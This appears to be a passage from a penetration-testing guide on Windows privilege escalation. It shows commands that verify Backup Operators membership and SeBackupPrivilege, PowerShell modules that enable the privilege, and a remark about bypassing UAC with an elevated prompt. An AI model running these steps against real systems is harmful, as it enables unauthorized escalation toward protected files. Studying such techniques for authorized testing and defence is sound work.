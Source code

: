 ### Detection and Enablement

#### Group Membership Verification
```cmd
# Check current group memberships
whoami /groups

# Look for:
BUILTIN\Backup Operators                       Group S-1-5-32-551
```

#### Privilege Enumeration
```cmd
# Check privilege status
whoami /priv

# Expected output:
SeBackupPrivilege             Back up files and directories  Disabled
SeRestorePrivilege            Restore files and directories  Disabled
```

### Privilege Activation

#### Method 1: PowerShell Modules
```powershell
# Import required libraries
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll

# Check privilege status
Get-SeBackupPrivilege
# Output: SeBackupPrivilege is disabled

# Enable privilege
Set-SeBackupPrivilege

# Verify activation
Get-SeBackupPrivilege
# Output: SeBackupPrivilege is enabled

# Confirm via whoami
whoami /priv
# SeBackupPrivilege should show as "Enabled"
```

#### Method 2: Elevated Context
```cmd
# May require elevated Command Prompt to bypass UAC
# Run Command Prompt as Administrator
# Enter Backup Operators user credentials when prompted
```
